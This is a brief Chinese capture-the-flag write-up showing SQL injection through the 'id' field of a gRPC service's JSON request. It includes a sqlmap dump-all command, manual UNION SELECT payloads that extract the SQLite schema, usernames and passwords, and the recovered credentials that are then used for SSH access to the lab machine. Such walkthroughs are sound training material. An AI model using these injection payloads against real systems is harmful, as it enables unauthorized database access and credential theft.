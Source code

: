 ```shell
```

POST请求体为：

```shell
{"timeout_seconds":3,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODYxMzQwNjN9.fvFtbaGpM-ATwO9SRW-XdTyor8rRk8i8buD8Vo2Er4A"}],"data":[{"id":"420"}]}
```

id处试一下sql注入，420 '，报错：

```shell
{
  "headers": [],
  "error": {
    "code": 2,
    "name": "Unknown",
    "message": "Unexpected \u003cclass 'TypeError'\u003e: bad argument type for built-in operation",
    "details": []
  },
  "responses": null,
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    }
  ]
}
```

可以用sqlmap跑或者手工注入。

```shell
python3 sqlmap.py -r ~/Desktop/pc -p id -f --batch -dump-all
```

手工：

```json
"id":"420 union select sqlite_version(); --+ "
#表名，数据库名
"id":"420 union select group_concat(sql) from sqlite_master --+ "
#username的值
"id":"420 union select group_concat(username) from accounts --+ "
#password
"id":"420 union select group_concat(password) from accounts --+ "
```

拿到帐号：sau，密码：HereIsYourPassWord1431

ssh登陆，拿到user flag。
